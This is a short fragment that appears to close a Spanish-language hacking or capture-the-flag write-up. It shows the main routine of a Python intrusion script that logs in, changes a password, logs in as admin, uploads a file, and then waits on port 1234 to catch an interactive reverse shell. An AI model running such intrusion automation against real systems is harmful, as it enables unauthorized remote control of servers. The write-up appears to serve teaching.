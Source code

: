 ```py
    login()
    changePass()
    loginadmin()
    upload()
    threading.Thread(target=conection, args=()).start()
    shell = listen(1234,timeout=20).wait_for_connection()
    shell.interactive()
```
¡Listo!, hemos terminado la automatización de la intrusión.

Nos vemos, hasta la próxima.
